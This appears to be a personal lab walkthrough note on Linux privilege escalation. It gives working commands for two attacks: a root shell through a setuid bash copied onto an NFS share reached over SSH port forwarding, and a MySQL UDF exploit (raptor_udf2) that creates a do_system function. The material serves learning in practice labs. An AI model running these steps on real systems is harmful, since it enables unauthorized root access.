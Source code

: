 ````
show mount -e 10.10.185.59
clnt_create: RPC: Unable to recieve
````
- Means there is a share on the host but only reachable on the remote machine locally.
- Can forward the port on our machine to the target machine
- Need to check the ports on the target with:
````
rpcinfo -p
100005    3   udp  20048  mountd
    100005    3   tcp  20048  mountd
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
````
- Confirms nfs is running on 2049 the default port
- Now port forward:
````
ssh targetusername@10.10.185.59 -i id_rsa -L 2049:localhost:2049
ssh sys-internal@10.10.232.5 -i id_rsa -L 44561:localhost:44561
````
- When a shell on the remote machine authenticates we are successful
- Now create the mount with elevated permissions
````
sudo mkdir /tmp/nfs
sudo mount -v -t nfs localhost:/ /tmp/nfs
````
- Now to get to root
- On your attackbox run
````
cp /bin/bash /tmp/nfs
chmod +s bash
````
- Now on the target box as your non elevated user
````
./bash -p
id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root)
````
### Service Exploits
- https://www.exploit-db.com/exploits/1518
- The mysql service is running as root and the 'root' user for the service does not have a password assigned or the password is known. 
- This exploit takes advantage of the User Defined Functions (UFDs) to run system commands as root via the mysql service.
- Change into the `/home/user/tools/mysql-udf` directory.
```
cd /home/user/tools/mysql-udf
```
- Compile the raptor_udf2.c exploit code using the following
```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
- Connect to the mysql service as the root user with a blank or known password.
```
mysql -u root
```
- Execute the following commands on the mysql shell to create a udf "do_system" using the compiled exploit
```
use mysql;
create table foo(line blob);
insert into foo values (load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```